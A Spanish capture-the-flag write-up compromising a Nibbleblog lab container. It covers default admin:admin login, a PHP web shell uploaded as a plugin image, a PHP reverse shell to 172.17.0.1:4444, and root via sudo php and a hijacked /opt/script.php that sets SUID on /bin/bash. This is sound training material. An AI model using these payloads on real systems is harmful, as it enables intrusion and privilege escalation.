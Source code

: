 ```yaml
---
Maquina: Cchocolateloversp
SO: Linux
Explotación: Análisis de web
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - web
  - nibbleblog
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -Pn 172.17.0.2
```

![[Pasted image 20241029181534.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

![[Pasted image 20241029181556.png]]

Como se puede apreciar es la página por defecto de apache. Vamos a intentar ver si hay alguna web adicional.

Si investigamos el código fuente podemos observar que tienen un nibbleblog instalado.

![[Pasted image 20241029181644.png]]

Y si nos adentramos podemos observar el panel principal de Nibbleblog

![[Pasted image 20241029181724.png]]

Podemos intentar iniciar sesión en el panel. Pero no nos sabemos las credenciales... Vamos a probar con las tipicas de admin:admin ->

![[Pasted image 20241029181825.png]]

Parece que estamos dentro...

![[Pasted image 20241029181846.png]]

Vamos a ver si podemos instalar algún plugin que tenga vulnerabilidades...

![[Pasted image 20241029181922.png]]

Parece que podemos instalar el plugin de myimage... sería una pena poner un código malicioso en vez de una imágen, se me ocurre un código como este ->

```php
<?php
if (isset($_GET['cmd'])) {
    $output = shell_exec($_GET['cmd']);
    echo "<pre>$output</pre>";
} else {
    echo "No command provided.";
}
```

Que nos permita ver si ejecutamos algún comando, y vaya parece que lo ha pillado bien.

![[Pasted image 20241029182135.png]]

Ahora podríamos intentar pasar comandos por url tal que así ->

![[Pasted image 20241029182205.png]]

Y si intentamos pasar una reverse shell?

Para ello nos ponemos a la escucha:

```bash
nc -lvnp 4444
```

Y por otro lado le pasamos a la URL el comando códificado -> php%20-r%20%27%24sock%3Dfsockopen%28%22172.17.0.1%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

Y listo, ya tenemos acceso a la bash de www-data

![[Pasted image 20241029182416.png]]

Nos queda hacer el proceso para upgradear la tty.

![[Pasted image 20241029184404.png]]

Listo, ahora vamos a pasar a ver nuestros permisos con sudo -l

![[Pasted image 20241029184446.png]]

Parece que podemos utilizar php como usuario chocolate, asi que vamos a pasar a ese usuario.

```bash
CMD="/bin/sh"
sudo -u chocolate php -r "posix_setuid(0); system('$CMD');"
```

![[Pasted image 20241029184622.png]]

Si ejecutamos el comando que nos permite ver los procesos en ejecución como root podemos observar algo interesante -> ps aux | grep root

![[Pasted image 20241029185718.png]]

Resulta que está ejecutando un proceso curioso -> sudo -u chocolate php -r posix_setuid(0); system('/bin/sh');

Si nos fijamos en el /opt/script.php somos propiertarios del archivo.

![[Pasted image 20241029185852.png]]

Vamos a intentar modificarlo para meterle una línea de código maliciosa

```bash
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

Tras esperar un poco asignamos el bit de superusuario al /bin/bash

![[Pasted image 20241029190231.png]]

Con lo que ya podemos ejecutar un bash como root sin necesidad de passwd

![[Pasted image 20241029190301.png]]

